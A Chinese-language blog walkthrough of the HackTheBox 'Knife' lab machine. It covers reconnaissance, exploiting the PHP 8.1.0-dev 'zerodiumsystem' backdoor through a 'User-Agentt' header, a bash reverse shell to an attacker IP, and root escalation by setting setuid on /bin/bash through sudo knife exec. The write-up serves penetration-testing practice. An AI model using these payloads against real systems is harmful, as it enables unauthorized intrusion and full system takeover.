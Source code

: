 ```yaml
---
layout:     post
title:      HackTheBox Knife
subtitle:   HackTheBox
date:       2021-06-01
author:     heria
header-img: img/post-bg-024.jpeg
catalog: true
tags:
---
```


![image-20210601113038863](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601113038863.png)

## 信息收集

nmap -sS -sV -sC 10.10.10.242

![image-20210528164911058](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528164911058.png)

发现开放22和80端口，80端口啥都没得点

![image-20210528165953268](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528165953268.png)

## 渗透

burp抓包获取到php版本信息

![image-20210528171120154](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528171120154.png)

php/8.1.0-dev

检索漏洞，相关资料如下

```
https://blog.csdn.net/zy15667076526/article/details/116447864
```

![image-20210528171458492](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528171458492.png)



漏洞验证，添加user-agentt字段，确实存在漏洞

![image-20210528172435792](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528172435792.png)



可以执行命令

```
User-Agentt: zerodiumsystem("id");
```

![image-20210528172917917](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528172917917.png)

尝试反弹shell

kali开启监听7777端口

之后数据包添加

```
User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/ip/7777 0>&1'");
```

拿到低权限

![image-20210601102037838](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601102037838.png)

之后找到user.txt拿到第一个flag

![image-20210601102226262](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601102226262.png)

## 提权

查看用户sodu权限

```
sudo -l
```

![image-20210601103038708](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601103038708.png)

由于shell容易断连，通过python获得一个更加稳定的shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20210601103224852](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601103224852.png)

发现knife可以通过exec执行scirpt

![image-20210601105336334](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601105336334.png)

进一步在提示站点上发现knife可以运行.rb文件

![image-20210601105537885](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601105537885.png)

```
echo "system('chmod +s /bin/bash')" > exploit.rb
sudo /usr/bin/knife exec exploit.rb
/bin/bash -p
```

-s参数含义

![image-20210601110024150](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601110024150.png)

![image-20210601104410530](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601104410530.png)

之后找到root.txt获得第二个flag

![image-20210601104112992](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210601104112992.png)
